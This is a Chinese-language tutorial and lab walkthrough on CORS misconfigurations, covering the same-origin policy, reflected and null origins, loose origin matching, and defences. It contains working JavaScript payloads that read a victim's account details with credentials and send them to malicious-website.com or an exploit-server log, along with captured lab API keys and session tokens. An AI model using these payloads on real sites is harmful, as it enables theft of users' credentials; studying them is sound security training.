









## 跨域资源共享 (CORS) 

Cross-origin resource sharing（CORS）

跨域资源共享（CORS）是一种浏览器机制，它允许对位于给定域之外的资源进行受控访问。

它扩展并增加了同源策略（SOP）的灵活性。然而，如果网站的 CORS 策略配置和实现不当，它也提供了跨域攻击的潜在风险。

CORS 并不是针对跨域攻击（如跨站请求伪造（CSRF））的保护措施。



## Same-origin policy

Same-origin policy（同源策略）

同源策略是一种浏览器安全机制，旨在防止网站互相攻击。

同源策略限制一个源上的脚本访问另一个源的数据。一个源由 URI 方案、域和端口号组成。例如，考虑以下 URL：

```
http://normal-website.com/example/example.html
```

同源策略考虑协议，域名，端口

| 访问的URL                               | 是否允许访问？             |
| --------------------------------------- | -------------------------- |
| http://normal-website.com/example2/     | 是，协议、端口、域名均相同 |
| https://normal-website.com/example/     | 否，协议、端口不同         |
| http://www.normal-website.com/example/  | 否，域名不同               |
| http://normal-website.com:8080/example/ | 否，端口不同               |

> IE 浏览器在应用同源策略时不考虑端口号

简单来说，同源策略先判断两个网页是否为同源，同源的话可以获取另一网页的数据，否则拒绝获取响应

## Access-Control-Allow-Origin

`Access-Control-Allow-Origin` 头包含在一个网站对另一个网站发起的请求的响应中，并标识了允许的请求来源。

一个源为：`https://evil.com`，发起一个跨域请求

```http
GET /data HTTP/1.1
Host: robust-website.com
Origin : https://evil.com
```

网站响应：

```http
HTTP/2 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
```

> 浏览器将` Access-Control-Allow-Origin `与请求网站的来源（Origin）进行比较，如果它们匹配，则允许访问响应

这里成功匹配，浏览器允许`https://evil.com`访问响应资源

`Access-Control-Allow-Origin` 的规范允许多个源，或值 `null` ，或通配符 `*` 。然而，没有浏览器支持多个源，并且对通配符 `*` 的使用有限制。

### 带凭据的跨域请求

跨源资源请求默认是不带凭证（如 cookies 和 Authorization 头）发送请求，服务器可以通过`Access-Control-Allow-Credentials` 

头设置为 true 来允许携带凭据读取响应

如果请求网站要求携带cookies访问：

> 请求网站（https://normal-website.com）需要在`JavaScript`中声明
>
> `req.withCredentials = true;`

```http
GET /data HTTP/1.1
Host: robust-website.com
...
Origin: https://normal-website.com
Cookie: JSESSIONID=<value>
```

响应：

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true
```

当`Access-Control-Allow-Credentials`设置为：true，浏览器返回响应

### CORS 中的通配符

该 `Access-Control-Allow-Origin` 头支持通配符。例如：

```
Access-Control-Allow-Origin: *
```

通配符不能用于任何其他值中。例如，以下头信息无效：

```
Access-Control-Allow-Origin: https://*.normal-website.com
```

### CORS 能防止 CSRF 吗？

**CORS 是不能直接防止 CSRF 攻击的**

​	CORS 主要是为了保护服务器资源不被恶意网站直接访问，而 CSRF 攻击利用的是用户的身份认证信息，不是直接的跨源请求

但是配置不当的 CORS 实际上可能会增加 CSRF 攻击的可能性或加剧其影响；CSRF 攻击通过HTML标签完成，同源策略没有限制

**总结**

​	CORS 主要是为了控制跨域访问，而 CSRF 攻击则是利用了用户的身份认证信息。为了保护应用免受 CSRF 攻击，需要采取额外的安

全措施，而不能仅依赖于 CORS。比如：Samesite-cookie属性，CSRF token，Referer和Origin头等

## CORS 配置漏洞

通过跨域资源共享（CORS），可以对同源策略进行受控的放宽，通过`Access-Control-Allow-Origin` HTTP头部定义信任的域名

许多现代网站使用 CORS 来允许从子域名和受信任的第三方访问。它们对 CORS 的实现可能存在错误或过于宽松，以确保一切正常工作，

这可能导致可利用的漏洞

### 信任任意源

一些网站通过请求中的 Origin 头部，设置响应中的 ACAO 头部，例如：

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://evil.com
Cookie: sessionid=...
```

响应：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
...
```

> `Access-Control-Allow-Origin: https://evil.com`表示：允许从`https://evil.com`访问
>
> `Access-Control-Allow-Credentials: true`表示：跨域请求可以包含 cookies

如果ACAO头部显示了任意域名，说明该网站允许任意域访问资源，可以利用下面的脚本获取敏感信息

```js
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open("get", "https://vulnerable-website.com/sensitive-victim-data", true);
req.withCredentials = true;
req.send();

function reqListener() {
    location = "//malicious-website.com/log?key=" + this.responseText;
}
</script>
```

### Origin 头宽松匹配

在实现 CORS  来源白名单时，错误常常会发生。一些组织决定允许其所有子域（包括未来尚未存在的子域）的访问。

而一些网站允许来自其他多个组织的域名（包括其子域）的访问。这些规则通常通过匹配 URL 前缀或后缀，或使用**正则表达式**来实

现。实施中的任何错误都可能导致授权给非预期的外部域名。

例如，假设一个网站授予所有以下面域名结尾的访问权限：

```
normal-website.com
```

攻击者可能通过注册以下域名来获取访问权限：

```
hackersnormal-website.com
```

或者，假设一个应用程序允许所有以开头域名的访问，攻击者可能能够使用以下域名获取访问权限：

```
normal-website.com.evil-user.net
```

### 白名单 NULL

某些应用程序可能会将 `null` 域添加到白名单中，以支持网站的本地开发。例如，假设一个网站收到以下跨域请求：

```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

响应为：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

这种情况下，攻击者可以使用各种技巧来生成一个包含 Origin 头中值为 `null` 的跨源请求

例如，这可以通过使用沙盒化的 `iframe` 跨源请求来实现：

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

### 利用 CORS 进行 XSS 攻击

即使  CORS（跨源资源共享）配置"正确"，也会在两个源之间建立信任关系。

如果某个网站信任一个容易受到跨站脚本（XSS）攻击的源，那么攻击者可能会利用 XSS 漏洞注入 JavaScript 代码，该代码通过 CORS 从

信任该易受攻击应用的网站获取敏感信息。

一个请求

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

响应

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

`subdomain.vulnerable-website.com`网站存在一个 XSS 漏洞，那么利用这个 XSS 漏洞访问`/api/requestApiKey`获取敏感信息，且不受CORS的影响，例如：

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## 防御 CORS 攻击

CORS 漏洞主要是由配置错误引起的。

### 正确配置跨域请求

如果网页资源包含敏感信息，应在 `Access-Control-Allow-Origin` 头部正确指定来源

### 仅允许信任的网站

`Access-Control-Allow-Origin` 头中指定的来源只能是可信的站点

### 避免白名单为null

避免使用`Access-Control-Allow-Origin: null` 

来自内部文档和沙盒请求的跨域资源调用，源点就为`null` 

## labs

### CORS 信任所有源

登录账号

`/accountDetails`存在敏感信息



`Access-Control-Allow-Credentials`为true，表示可以携带cookies

添加`Origin: https://evil.com`



ACAO头部，响应出源，可以接受该源的请求

利用脚本

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a5e003804fc9f62818cadb2005f00d9.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

访问日志



```json
{
  "username": "administrator",
  "email": "",
  "apikey": "JF7nIje2B4LvdqjfcZjCHIsIGitz5fAH",
  "sessions": [
    "pkFWb18jbi5HDexbRFQV69rYCLVA04JI"
  ]
}
```

### 白名单 NULL

登录自己的账户

添加`Origin`，在响应中不存在`ACAO`头，表示该源不在白名单中



填写null，ACAO头部显示，说明null值在白名单中



```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://0ace007f0445cf07801f031600ab004b.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a0300b7041acf7380d1028e012f00cb.exploit-server.net/log?key='+this.responseText;};
</script>"></iframe>
```

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ad10032038c757c80510392000b00d3.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

```js
{
  "username": "administrator",
  "email": "",
  "apikey": "JLO3S5OFUwfxkPYDgjOx036avhFrYgUV",
  "sessions": [
    "28KNFLUl8hZPtVfX6bclGA7pJTIaklwW"
  ]
}
```

### 使用受信任的不安全协议的 CORS 漏洞

添加任意子域名`Origin`，发现 CORS 配置允许所有子域名访问，包括HTTPS和HTTP



在查询库存的页面，productId存在 XSS 漏洞





利用脚本：

利用子域名中的 XSS 漏洞，让子域名访问存在CORS漏洞的网站

> 这里是通过注入`JavaScript`到子域名中，模仿中间人攻击（使用 MITM 攻击劫持到不安全子域的连接），然后利用缺陷CORS配置
>
> 注入恶意JS代码获取敏感信息

```js
<script>
    document.location="http://stock.0ab700a604a6c7b080eb0314004f008a.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ab700a604a6c7b080eb0314004f008a.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ad600780453c7de8064024c01a80089.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

